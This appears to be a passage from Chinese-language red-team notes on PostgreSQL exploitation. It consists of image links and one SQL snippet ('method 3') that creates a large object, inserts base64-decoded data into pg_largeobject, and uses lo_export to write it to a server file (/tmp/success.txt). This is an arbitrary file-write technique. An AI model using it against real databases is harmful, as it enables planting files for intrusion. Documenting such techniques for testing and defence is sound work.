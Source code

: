 ![](../../../../../assets/img/Security/RedTeam/软件服务安全/CS-Exploits/PostgreSQL/36.png)

![](../../../../../assets/img/Security/RedTeam/软件服务安全/CS-Exploits/PostgreSQL/37.png)

**方法3 lo_export + pg_largeobject**

```sql
-- 记下生成的lo_creat ID
select lo_creat(-1);

-- 替换 24577 为生成的lo_creat ID
INSERT INTO pg_largeobject(loid, pageno, data) values (24577, 0, decode('ZmZmZmZmZmYweA==', 'base64'));
select lo_export(24577, '/tmp/success.txt');
```

![](../../../../../assets/img/Security/RedTeam/软件服务安全/CS-Exploits/PostgreSQL/31.png)
